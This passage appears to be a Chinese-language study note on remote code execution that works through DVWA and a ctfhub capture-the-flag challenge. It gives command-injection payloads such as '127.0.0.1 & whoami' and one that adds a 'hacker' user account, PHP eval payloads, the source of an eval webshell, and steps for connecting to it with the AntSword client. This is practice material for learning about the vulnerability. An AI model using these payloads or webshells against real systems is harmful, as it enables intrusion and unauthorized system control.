 `127.0.0.1 & ipconfig` 

![image-20221126141342605](https://img.gyxnb.top/img/image-20221126141342605.png)

`127.0.0.1 & whoami` 

![image-20221126141305745](https://img.gyxnb.top/img/image-20221126141305745.png)



### eval 

payload 

`system('ipconfig');`

`phpinfo();` 

![image-20221126142137870](https://img.gyxnb.top/img/image-20221126142137870.png)

POST请求，参数为txt，可以用中国蚁剑连接

## DVWA

payload 

`127.0.0.1 & ipconfig` 

![image-20221126142358248](https://img.gyxnb.top/img/image-20221126142358248.png)

添加用户：`127.0.0.1 & net user hacker /add`

# CTF题目

## ctfhub-Web-RCE 

### eval执行

http://challenge-2b80a00426eb8855.sandbox.ctfhub.com:10800/

```php
<?php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
?>
```

中国蚁剑连接

密码cmd 

![image-20221126143055756](https://img.gyxnb.top/img/image-20221126143055756.png)
